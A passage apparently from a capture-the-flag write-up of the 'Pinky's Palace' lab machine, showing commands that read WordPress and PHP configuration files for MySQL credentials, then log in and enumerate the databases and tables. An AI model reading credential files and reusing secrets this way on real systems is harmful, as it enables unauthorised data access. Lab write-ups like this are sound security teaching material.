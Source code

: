 After exploring the Apache folder I was able to find the Wordpress MySQL database credentials:
```
cd /var/www/html/apache
cat wp-config.php
---SNIP---
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'pwp_db');

/** MySQL database username */
define('DB_USER', 'pinkywp');

/** MySQL database password */
define('DB_PASSWORD', 'pinkydbpass_wp');

/** MySQL hostname */
define('DB_HOST', 'localhost');
---SNIP---
```

After exploring the nginx folder I was able to find the login application's credentials:
```
cd /var/www/html/nginx/pinkydb/html
cat config.php 
<?php
	define('DB_HOST', 'localhost');
	define('DB_USER', 'secretpinkdbuser');
	define('DB_PASS', 'pinkyssecretdbpass');
	define('DB_NAME', 'secretsdb');
	$conn = mysqli_connect(DB_HOST,DB_USER,DB_PASS,DB_NAME);
?>
```

Using the database credentials we are able to login to query and enumerate the local MySQL databases:
```
stefano@Pinkys-Palace:/var/www/html/nginx/pinkydb$ mysql -u secretpinkdbuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 30799
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| secretsdb          |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use secretsdb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [secretsdb]> show tables;
+---------------------+
| Tables_in_secretsdb |
+---------------------+
| users               |
```